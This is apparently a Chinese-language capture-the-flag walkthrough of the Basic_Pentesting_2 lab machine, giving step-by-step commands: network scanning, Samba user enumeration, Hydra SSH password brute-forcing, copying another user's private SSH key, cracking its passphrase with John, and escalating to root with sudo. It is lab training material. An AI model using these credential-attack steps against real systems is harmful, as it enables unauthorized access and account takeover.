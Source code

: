 
### 攻擊主機：Kali_Linux_2019.3 
### 靶機：Basic_Pentesting_2.1

**Kali>** <code>arp-scan -l</code> (尋找靶機)<br/>
**Kali>** <code>nmap -A 192.168.203.132</code> (去看他開啟了甚麼port) <br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/587481ef-dc6a-4eb7-b822-6aaab8f60a39)<br/>
(我發現他開啟了22port，那就可以走簡單的ssh，也發現他有開samba 我選擇走enum4linux)<br/>
**Kali>** <code>enum4linux 192.168.203.132</code> (掃描，看看能掃到甚麼)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/934b796a-fdba-4e40-9714-ea289b312fed)<br/>
(得到兩個使用者帳號 Kay 和 Jan)<br/>
(Jan 權限較低，較好攻擊)<br/>
**kali>**  <code>hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.203.132 ssh</code> (破解密碼)<br/>
(得到帳號jan的密碼：armando)<br/>
**kali>** <code>ssh jan@192.168.203.132</code>(連線到jan的帳號)<br/>
**Jan>** <code>sudo -l</code>(測試我的權限)(發現權限不足，改入侵kay)<br/>
**Jan>** <code>pwd</code>(查看我在哪裡)<br/>
**Jan>** <code>cd ..</code><br/>
**Jan>** <code>ls -al</code><br/>
**Jan>** <code>cd /home/kay</code>(移動到kay的檔案夾下)<br/>
**Jan>** <code>ls -al</code>(看看有甚麼檔案，發現pass.bak)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/fce2acb2-87c4-4bb4-aa61-bb323397a3de)<br/>
**Jan>** <code>cat pass.bak</code>(嘗試開啟，發現沒有權限)<br/>
**Jan>** <code>cd ssh</code>(移動到ssh下面)<br/>
**Jan>** <code>ls -al</code>(找金鑰檔)<br/>
**Jan>** <code>scp jan@192.168.203.132:/home/kay/.ssh/id_rsa ./</code>(把金鑰存到我的位置)<br/>
**Kali>** <code>locate ssh2john</code>(因為ssh2john已經不在新版的kali的全域變數中，需先locate ssh2john)<br/>
**Kali>** <code>/usr/share/john/ssh2john.py id_rsa > kay.hash</code>(將id_rsa轉成hash)<br/>
**Kali>** <code>john -w:/usr/share/wordlists/rockyou.txt kay.hash</code>(john他)<br/>
(得到beeswax)<br/>
**Jan>** <code>ssh -I /home/kay/.ssh/id_rsa kay@localhost</code>(輸入金鑰後變成kay)<br/>
(可開啟pass.bak)<br/>
(得到密碼heresareallystrongpasswordthatfollowsthepasswordpolicy$$)<br/>
**Kay>** <code>sudo su</code><br/>
**Kay>** <code>whoami</code><br/>
##### Root<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5ed96111-62e8-4284-be53-339a886612f5)

成功<br/>
